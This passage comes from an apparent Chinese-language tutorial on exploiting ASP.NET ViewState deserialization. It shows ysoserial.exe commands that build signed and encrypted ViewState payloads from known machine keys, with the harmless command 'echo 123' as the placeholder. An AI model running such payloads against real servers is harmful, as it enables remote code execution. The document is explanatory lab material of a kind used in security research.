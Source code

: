 .NET<=4.0 的表单中会带有`__VIEWSTATEGENERATOR`，对于不含该字段的高版本 .NET，ysoserial 需要使用`path`和`apppath`选项：

```powershell
.\ysoserial.exe
-p ViewState
-g TextFormattingRunProperties 
-c "echo 123 > e:\test.txt"
--path="/default.aspx"
--apppath="/"
--validationalg="SHA1"
--validationkey="F2D27DF0348E9A3EAD6AC66330C31F821394D4CD1A5E139EEE85EA9D9F2A963E55EC87572F699FB834292CC9E37AD56B6B26AA379106CBA5E9AA544C688F3E92"
--islegacy # 表示ASP.NET<=4.0，不需要加密密钥

.\ysoserial.exe
-p ViewState
-g TextFormattingRunProperties
-c "echo 123 > e:\test.txt"
--generator=CA0B0334 
--validationalg="SHA1"
--validationkey="F2D27DF0348E9A3EAD6AC66330C31F821394D4CD1A5E139EEE85EA9D9F2A963E55EC87572F699FB834292CC9E37AD56B6B26AA379106CBA5E9AA544C688F3E92"
--isdebug # 开启后能看到CA0B0334等同于path="/"apppath="/default.aspx"
# 使用generator选项，相当于默认ASP.NET<=4.0，因此不需要islegacy选项
```

![](/img/2024-08-12-viewstate-exp/3.png)

![](/img/2024-08-12-viewstate-exp/4.png)

### 2.3 ASP.NET >= 4.5，开启MAC验证

未开启加密的情况同2.2，下面是开启加密的payload生成：

```powershell
.\ysoserial.exe
-p ViewState 
-g TypeConfuseDelegate 
-c "echo 123 > e:\test.txt" 
--path="/default.aspx"
--appath="/"
--validationalg="SHA1" 
--validationkey="F2D27DF0348E9A3EAD6AC66330C31F821394D4CD1A5E139EEE85EA9D9F2A963E55EC87572F699FB834292CC9E37AD56B6B26AA379106CBA5E9AA544C688F3E92" 
--decryptionalg="AES" 
--decryptionkey="F6D5A5C8DDEC57481610829F58D6C95BDAC5FA21082F3FA9CB5A36DCEAACBEDB"

# 从逻辑上下面的命令也应当正确，但事实却是MAC验证失败，原因不明
.\ysoserial.exe
```